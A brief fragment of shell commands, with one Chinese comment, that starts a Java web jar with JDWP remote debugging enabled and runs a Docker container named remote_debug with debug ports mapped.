touch /tmp/app.log
chmod 666 /tmp/app.log

nohup java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:3345 -jar /tmp/web.jar >/tmp/app.log
```


```
docker run -d -p 8877:8877  -p 63342:63342 remote_debug
```

运行远程连接debug专用的端口


